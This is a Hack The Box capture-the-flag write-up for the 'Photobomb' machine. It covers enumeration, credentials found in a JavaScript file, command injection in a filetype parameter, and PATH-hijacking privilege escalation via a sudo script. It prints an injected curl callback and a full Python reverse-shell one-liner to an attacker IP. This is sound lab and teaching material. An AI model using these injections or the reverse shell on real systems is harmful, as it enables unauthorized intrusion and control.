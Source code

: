 # Hack-The-Box-writeups
Photobomb
1. Enumeration 
Let's start with a Nmap scan to discover services and open ports running on this machine.
nmap -sV -Sc 10.10.11.182
 ![image](https://user-images.githubusercontent.com/107045536/216795769-eacf443c-edec-451c-8de5-7842fe1cbb16.png)
There are only two open ports, port 22 and port 80 
- Web content and Subdomain enumeration don’t show anything  

2. Port 80 enumeration
photobomb.htb
 ![image](https://user-images.githubusercontent.com/107045536/216795779-e44da4f3-ff11-4552-a2a6-064c47d74f7a.png)
 
This link redirects to /printer which is asking for a username and password that we don’t know.
 ![image](https://user-images.githubusercontent.com/107045536/216795784-25623989-36b0-4b9b-8439-b98cc199a1b7.png)
 
Photobomb.htb source code 
 ![image](https://user-images.githubusercontent.com/107045536/216795788-83e10377-456b-4725-a7b4-91f901d9e78f.png)

Let's take a look at this JS file: 
![image](https://user-images.githubusercontent.com/107045536/216795793-e784324b-a978-4ced-a385-62579ce53b86.png)

Now let's log in with those credentials 
 ![image](https://user-images.githubusercontent.com/107045536/216795797-7d1aee88-10c2-4092-8db9-ace3991fdeac.png)

The website offers "DOWNLOAD PHOTO TO PRINT"
Let's intercept the request using Burpsuite  
 ![image](https://user-images.githubusercontent.com/107045536/216795804-dd8db109-55a5-4f52-a491-d23078e0fce1.png)

It seems vulnerable to command injection
Let's test for command injection, start "python web server" 
1. python3 -m http.server
2. inject ;curl+10.10.x.x:8000 to each parameter 
 ![image](https://user-images.githubusercontent.com/107045536/216795809-501793d1-c82c-40a0-8bab-86d329a11bf9.png)
We found that only the filetype parameter is vulnerable 
Lets create some reverse shell: https://www.revshells.com/ 
export+RHOST="10.10.14.34";export+RPORT=5555;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'

Start the Netcat listener 
![image](https://user-images.githubusercontent.com/107045536/216795815-f88dbd93-f881-49b4-b084-f2bfacede87a.png)
![image](https://user-images.githubusercontent.com/107045536/216795821-274fe779-ae03-4388-a34e-74cd087113c3.png)

3. Privilege Escalation

Lets upgrade our shell 
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'

Before running linpeas lets try the classic ways 
 ![image](https://user-images.githubusercontent.com/107045536/216795825-bc62f6e6-98a7-4f70-acec-4ca50402d139.png)

User wizard can run "cleanup.sh" with "sudo" privilege 



Lets check this script
 ![image](https://user-images.githubusercontent.com/107045536/216795830-dee8d555-5cd8-4bf4-9142-82fc036a8cf2.png)

So there are two interesting, “cd” and "find" called without their absolute path. so, we can exploit this misconfiguration by changing the "PATH variable"   
Lets create "cd" file that contains '/bin/bash'  and give 777 permission
 ![image](https://user-images.githubusercontent.com/107045536/216795832-47d85810-fd6b-44af-a32c-02d770ad60c7.png)

Add /tmp to the beginning of the PATH variable 
 ![image](https://user-images.githubusercontent.com/107045536/216795835-38437609-6b9d-415c-b709-ff9a7d0c9569.png)
![image](https://user-images.githubusercontent.com/107045536/216795840-455f1338-9933-4c2c-9a39-3554b565b9a9.png)




